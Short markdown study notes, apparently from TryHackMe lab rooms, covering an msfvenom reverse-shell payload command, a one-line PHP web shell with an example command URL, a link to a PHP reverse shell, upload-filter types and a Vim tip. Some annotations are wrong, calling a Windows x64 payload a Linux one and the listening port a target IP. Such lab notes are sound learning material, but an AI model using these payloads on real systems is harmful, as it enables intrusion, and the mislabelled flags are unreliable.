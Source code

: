 >https://tryhackme.com/room/introtoshells

---

# msfvenom create payloads

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

- -p    creates payload
- windows/x64/shell/reverse_tcp     reverse shell for a x86 Linux Target
- -f    prints to .exe format
- lhost     listen IP
- lport     target IP

---

# PHP RCE from a File Upload

```
<?php
    echo system($_GET["cmd"]);
?>
```

- add this to a web directory with a filename like 'webshell.php'
- then navigate to the file you uploaded and add to the url your console cmd
  
>e.g. `http://shell.uploadvulns.thm/resources/webshell.php?cmd=id;whoami;ls`

then from here we can upload an RCE

>https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

---

### Client-side filtering and server-side filtering

- Extension Validation
- File Type Filtering
  - MIME validation
  - Magic Number validation
- File Length Filtering
- File Name Filtering
- File Content Filtering

---

# Exit VIM

To save a file and exit Vim, do the following:

- Switch to command mode by pressing the Esc key.
- Press : (colon) to open the prompt bar in the bottom left corner of the window.
- Type x after the colon and hit Enter. This will save the changes and exit.
